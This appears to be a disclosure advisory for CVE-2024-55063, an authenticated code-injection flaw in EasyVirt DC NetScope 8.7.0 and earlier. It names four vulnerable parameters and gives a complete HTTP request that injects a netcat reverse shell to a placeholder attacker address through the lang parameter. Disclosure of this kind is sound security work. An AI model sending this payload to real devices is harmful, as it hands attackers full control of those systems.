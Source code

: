 # [CVE-2024-55063] - EasyVirt - Authenticated Remote Code Execution
#### Exploit Author: [Aurélien BOURDOIS](https://www.linkedin.com/in/aurelien-bourdois)
#### Date: 25-10-2024
#### Vendor: [EasyVirt](https://www.easyvirt.com/)
#### Vulnerable versions: 
- DC NetScope <= 8.7.0

## Description:
Multiple Code Injection vulnerabilities in EasyVirt **DC NetScope <= 8.7.0** allows remote authenticated attackers to execute arbitrary code via the (1) **lang** parameter to `/international/keyboard/options`; the (2) **keyboard_layout** or (3) **keyboard_variant** parameter to `/international/settings/keyboard`; the (4) **timezone** parameter to `/international/settings/timezone`.

## Exploitation:
/international/keyboard/options:
```
POST /international/keyboard/options HTTP/1.1
Host: XX.XX.XX.XX:5000
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 45
Cookie: authorization="b'\\xfb\\xeb\\xb[..snip..]

lang=fr%26nc+-e+/bin/bash+YY.YY.YY.YY+1234%26
```

## Impact:
Exploiting an RCE allows an attacker to gain full control of the device, potentially compromising all the data it protects.
